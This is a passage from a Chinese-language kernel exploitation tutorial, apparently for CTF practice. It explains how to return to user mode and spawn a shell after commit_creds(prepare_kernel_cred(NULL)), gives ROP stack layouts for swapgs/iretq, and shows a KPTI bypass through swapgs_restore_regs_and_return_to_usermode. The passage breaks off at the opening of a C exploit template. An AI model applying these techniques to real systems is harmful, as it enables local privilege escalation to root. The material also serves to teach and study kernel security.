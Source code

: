 而在我么能成功执行`commit_creds(prepare_kernel_cred(NULL))`后，我们又需要返回用户态并着陆起一个`shell`。返回用户态的方式分为两步即：

- 通过`swapgs`恢复用户态`GS`寄存器
- 通过`sysretq`或者`iretq`指令恢复到用户空间

因此通过`swapgs; iretq`的方式就可以返回到用户态。

例如，使用`ROP`时，我们可以让栈保存为如下状态来返回用户态：

```c
swapgs
iretq
user_shell_addr // the func that will be execute
user_cs
user_eflags // 64bit:user_rflags
user_sp
user_ss
```

### with kpti

`kpti`机制可以参考后文的介绍部分。

若程序开启了`kpti`机制，那么我们甚至不能简单通过`swapgs; iretq`这样的方式来返回到用户态。在此之前，我们还需要将页表切换为用户页表，而这个操作只需要将`cr3`寄存器的第`13`位取反（用户态为高位）即可。实际上，有一个函数专门用于完成这个操作，即`swapgs_restore_regs_and_return_to_usermode`。该函数操作总结如下：

```assembly
# 一些pop操作
mov  rdi, cr3
or rdi, 0x1000
mov  cr3, rdi
pop rax
pop rdi
swapgs
iretq
```

由上可知，我们可以直接通过该函数一气呵成地完成切换用户态页表和`swapgs; iretq`两个操作。因此，我们只需要将栈布局为如下形式即可：

```c
↓   swapgs_restore_regs_and_return_to_usermode + 27
    0 // padding
    0 // padding
    user_shell_addr
    user_cs
    user_rflags
    user_sp
    user_ss
```

一个板子如下：

（注意，`gcc`需要通过`gcc exp.c -o exp -masm=intel -static`来编译该文件）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void info(const char *format, ...)
{
    va_list args;
    va_start(args, format);
    printf("%s", "\033[34m\033[1m[*] ");
    vprintf(format, args);
    printf("%s", "\033[0m\n");
```
